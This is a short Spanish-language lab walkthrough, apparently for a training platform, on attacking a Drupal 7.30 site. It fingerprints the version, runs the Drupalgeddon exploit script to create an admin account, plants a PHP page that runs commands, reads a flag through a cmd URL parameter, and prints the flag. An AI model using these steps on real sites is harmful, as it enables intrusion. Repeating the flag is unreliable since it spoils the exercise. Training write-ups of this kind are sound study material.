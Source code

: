 # Laboratorio: Drupal 🏫

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**
--
2. Visitamos el **archivo `CHANGELOG.txt`** para conocer la versión de **Drupal** 💧
* **URL:** `http://drupal-qa.inlanefreight.local/CHANGELOG.txt`

**Output**
```java
Drupal 7.30, 2014-07-24
-----------------------
<SNIP>
```
---

# Laboratorio: Attacking Drupal 🔋

1. Ejecutamos el script [Drupalgeddon](https://www.exploit-db.com/exploits/34992)
* `python2 drupalgeddon.py -t http://drupal-dev.inlanefreight.local/ -u test -p test`
----

2. Una vez loguados como `test:test` hacemos lo siguiente

<p align="center">
    <img src="./assets/Drupal/01-Web.PNG">
</p>

---

3. Ahora ya podemos podemos crear una `nueva página` y colocar código php para ejecutar **comandos**

<p align="center">
    <img src="./assets/Drupal/02-Php.PNG" height=710>
</p>

---

4. Leemos la `flag`
* **URL:** `http://drupal-qa.inlanefreight.local/node/[N]?cmd=cat%20../drupal.inlanefreight.local/flag_[ID].txt`

* **Flag:** `DrUp@l_drUp@l_3veryWh3Re!`